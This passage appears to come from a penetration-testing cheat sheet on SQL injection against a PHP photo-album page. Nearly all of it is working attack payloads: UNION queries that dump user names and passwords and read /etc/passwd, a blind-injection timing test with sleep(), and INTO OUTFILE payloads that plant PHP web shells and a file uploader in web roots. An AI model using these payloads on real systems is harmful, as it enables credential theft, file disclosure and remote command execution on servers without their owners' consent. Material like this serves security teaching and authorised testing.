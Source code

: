 ```text
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,group_concat(column_name),6,7,8,9 from information_schema.columns where table_name = 'users'

# Get content from the users-table. From columns name and password. The 0x3a only servers to create a delimitor between name and password

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,concat(name,0x3a,
password),6,7,8,9 FROM users

# Display a file
http://example.com/photoalbum.php?id=1 union select null,null,null,null,load_file('/etc/passwd'),null,null,null,null

# Write a file on the disk
http://example.com/photoalbum.php?id=1 union select null,null,null,null,"<?php system($_GET['cmd']);?>",null,null,null,null into outfile '/var/www/shell.php'

# Confirm file is written to webserver
http://example.com/photoalbum.php?id=1 union select null,null,null,null,load_file('/var/www/shell.php'),null,null,null,null
```

### Blind sql-injection

We say that it is blind because we do not have access to the error log. This make the whole process a lot more complicated. But it is of course still possible to exploit.

#### Using sleep

Since we do not have access to the logs we do not know if our commands are syntaxically correct or not. To know if it is correct or not we can however use the sleep statement.

```text
http://example.com/photoalbum.php?id=1-sleep(4)
```

If it lods for four seconds exta we know that the database is processing our sleep\(\) command.

### Get shell from sql-injection

The good part about mysql from a hacker-perspective is that you can actaully use slq to write files to the system. The will let us write a backdoor to the system that we can use.

#### Load files

UNION SELECT 1, load\_file\(/etc/passwd\) \#

```text
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
```

#### Write files

```text
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>",6,7,8,9 into OUTFILE '/var/www/html/uploader.php'
```